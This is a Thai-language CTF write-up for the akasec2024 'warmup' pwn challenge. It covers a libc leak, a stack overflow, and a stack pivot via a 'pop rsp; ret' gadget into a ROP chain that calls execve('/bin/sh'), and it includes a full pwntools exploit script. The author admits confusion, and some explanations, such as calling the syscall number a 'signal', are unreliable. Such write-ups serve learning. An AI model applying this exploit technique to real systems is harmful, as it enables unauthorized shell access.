


# Solution

-----

 สวัสดีครับผม Sudrit วันนี้จะมาลองเขียน writeup เกี่ยวกับ pwn จากงานแข่ง ctf  ที่ชื่อว่า akasec2024 กันครับ ต้องบอกก่อนเลยว่าผมไม่ค่อยรู้เรื่องพวกนี้เท่าไหร่ แต่จะลองมั่วๆดูนะครับ lol แล้วก็ผมไม่ได้ทำข้อนี้ในระหว่างแข่งครับ แต่มาทำหลังจากแข่งเสร็จแล้วนั่งอ่าน writeup คนอื่นรวมถึงสอบถามพี่ Jusmistic มาครับ เลยลองมาเขียนๆดูเพราะทบทวนตัวเอง แต่ไม่น่าจะแชร์ให้ใครดู 5555


โดยโจทย์ข้อนี้มีชื่อว่า warmup ซึ่งผมคิดว่ามันไม่ warmup เลยยยย มันยากนะเนี้ย

เริ่มต้นที่โจทย์จะให้ไฟล์มาสองไฟล์คือ Binary File และ Dockerfile ซึ่งเราสามารถรันโจทย์ผ่าน docker ได้โดยมี env ต่างๆ เดียวกันกับโจทย์ในระบบทำให้เราสามารถดึงไฟล์ libc ที่โปรแกรมใช้มาได้โดยใช้ ldd จากนั้นทำการ patch ไฟล์ binary กับ libc ที่ได้มาและเริ่มทำการ decompile ตัวโจทย์กันเลยครับ โดยได้โค้ดตามนี้

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [rsp+0h] [rbp-40h] BYREF

  helper();
  printf("%p\n", &puts);
  printf("name>> ");
  fgets(name, 512, stdin);
  printf("alright>> ");
  fgets(s, 88, stdin);
  puts("okey");
  return 0;
}
```

พบว่าตัวโปรแกรมมีการ leak ตัว address ของ puts มาให้ซึ่งทำให้เราสามารถหา base address  ของ libc ได้นะครับโค้ดประมาณนี้มั้ง ปล เพื่อความง่ายใน local ก็ปิด aslr ด้วยนะครับ

```python
leaked_puts = int(r.recv(14),16)
libc.address = leaked_puts - libc.sym.puts
log.info(hex(libc.address)) #0x7ffff7dab000
```

แล้วก็สังเกตุว่าตัวโปรแกรมจะมีการรับค่าจำนวนสองครั้งผ่าน fgets โดยสามารถใส่ใน name ได้จำนวน 512 bytes และ s อีก 88 bytes เป็นจำนวนสูงสุดที่ถูกจองไว้มั้งครับ โดยเราสามารถสังเกตุได้ว่าที่ตัวแปร s เราสามารถใส่ได้จำนวน 64+8 bytes จึงถึงจุดที่เรากำหนด rip ได้ครับ

ซึ่งตอนแรกผมทำแบบ ROP ทั่วไปที่ call system เลยครับแล้วมันไม่ได้ เพราะอะไรไม่รู้ 5555 แต่เหมือนมีคนอธิบายในดิสคอร์ดนะครับแต่ผมก็ไม่ค่อยเข้าใจใครรู้มาอธิบายผมด้วย ซึ่งการทำแบบเดิมๆนั้นมันทำไม่ได้ครับ มันเลยต้องใช้ท่าใหม่โดยท่านี้เรียกว่า Stack Pivot นะครับ หากใครอยากรู้ว่าคืออะไรไปหาอ่านได้ที่นี่เลยครับ [Stack Pivoting | Binary Exploitation (gitbook.io)](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting)

ซึ่งเงื่อนไขในการใช้งานได้นะครับ

1. มี input ที่เราใส่แล้วทำการ hijack control flow ได้ ในที่นี้ก็คือ s

2. มี input ที่เราใส่ได้เย๊อะๆ ในที่นี้ก็คือ name ซึ่งมี address คือ `0x404060`

3. มี gadget ที่เด็ดๆนะครับ `pop rsp; ret` ให้เราใช้งานดูได้จาก ROPgadget เลย

โดยเราจะเขียน rop chain ลงใน name นะครับโดยในกรณีนี้เหมือนที่ผมได้บอกตอนแรกครับคือมันใช้ system ไม่ได้เพราะไรไม่รู้ ผมเลยไปอ่านๆของคนอื่นมาเขาบอกว่า ต้องใช้ SigreturnFrame หรือก็คือการทำ SROP ครับ โดยใช้ syscall เป็นตัวหลักในการเรียกใช้ function ต่างๆ โดย signal ซึ่งในที่นี้เราจะเรียกใช้ `execve` โดยการเรียกใช้เราต้องเซทค่า register ตามที่กำหนดในเว็บนี้ครับ [Chromium OS Docs - Linux System Call Table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md) จากนั้นเราก็ลองไล่หาดูนะครับ จะได้ประมาณนี้ 

| arch   | syscall NR | return | arg0                  | arg1 | arg2 |
| ------ | ---------- | ------ | --------------------- | ---- | ---- |
| x86_64 | rax        | rax    | rdi                   | rsi  | rdx  |
|        | 0x3b       | 0x3b   | address of "/bin/sh" | 0x0  | 0x0  |

แล้วเราก็ใช้ข้อมูลนี้มาเขียน rop chain ครับแล้วก็ทำการส่งเข้าตัวแปร name จะได้ประมาณนี้

```python
rop_chain = ROP(libc)
rop_chain.rdi = next(libc.search(b'/bin/sh\x00')) #argument 1
rop_chain.rsi = 0 #argument 2
rop_chain.rax = 0x3b #signal ของ execve ในการใช้ syscall 
rop_chain.raw(rop_chain.find_gadget(["syscall"])[0]) #set ตัว rip
r.sendlineafter(b'name>>',rop_chain.chain())
```

ต่อไปจะเป็นอะไรที่สำคัญนะครับแล้วผมก็ค่อนข้างจะงง 5555555

คือเราจะใช้ตัว `pop rsp; ret` ให้เป็นประโยชน์นะครับ โดยเราจะ exploit ส่ง payload ผ่าน s แล้วให้ execute ตัว rop chain ของเราที่ address ของ name โดยจะเห็นว่า rsp จะเป็นตัวที่อยู่ด้านบนสุดของ stack ในตอนนี้ซึ่งหากเรา ret ไปที่ gadget  ดังกล่าวจะทำให้ มีการ pop rsp ออกมาและถูกแทนที่ด้านบนสุดของ stack กลายเป็น address ของตัว name ที่เราได้ใส่ rop chain อัดเข้าไปข้างใน ดูได้จากสองรูปข้างล่างนะครับ พอเข้าสู่ rop chain แล้วก็รันตามกระบวนการเลยครับทำให้เราสามารถเข้าถึงเครื่องของโจทย์และได้รับ flag.txt





หากนำมาเขียน exploit จะได้ประมาณนี้ครับ

```python
#!/usr/bin/env python3

from pwn import *
from pwn import p64

exe = ELF("./warmup_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.39.so")

context.binary = exe
#context.log_level = "DEBUG"
context.terminal = ["xterm", "-e"]
context(os='linux', arch='amd64', log_level='debug')

def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdbscript = """
        b *0x40124f
        b *0x40118e
        c
        """
        #gdb.attach(r,gdbscript=gdbscript)
    else:
        r = remote("addr", 1337) #เซิฟปิดไปละทำไม่ทัน TwT

    return r


def main():
    r = conn()
    leaked_puts = int(r.recv(14),16)
    libc.address = leaked_puts - libc.sym.puts
    log.info(hex(libc.address)) #0x7ffff7dab000
    
    rop_chain = ROP(libc)
    rop_chain.rdi = next(libc.search(b'/bin/sh\x00')) #argument 1
    rop_chain.rsi = 0 #argument 2
    rop_chain.rax = 0x3b #signal ของ execve ในการใช้ syscall 
    rop_chain.raw(rop_chain.find_gadget(["syscall"])[0]) #set ตัว rip
    r.sendlineafter(b'name>>',rop_chain.chain())
    
    rop_elf = ROP(exe)
    pop_rsp = rop_elf.find_gadget(["pop rsp","ret"])[0]
            
    payload = b'A'*64 + p64(0) + p64(pop_rsp) + p64(0x404060)
    r.sendlineafter(b'alright>>',payload)

    r.interactive()

if __name__ == "__main__":
    main()


```

โดยจากที่กล่าวมานี่ก็คือเทคนิค stack pivot นั่นเองครับที่เป็นการแก้ค่า rsp ให้เป็นค่าที่ของ address ที่เราต้องการแทน ที่อ่านๆมาเขาบอกว่าเป็นการ fake location อะไรซักอย่างบน stack มั้งครับ ผมก็ไม่แน่ใจ แล้วก็อีกอย่างคือไม่ต้อง code คล้ายๆผมก็ได้ครับ ผมเห็นคนอื่นเขาใช้ SigreturnFrame() ทำเลยก็ดูเท่ดีครับ ลองไปปรับๆใช้กันดู
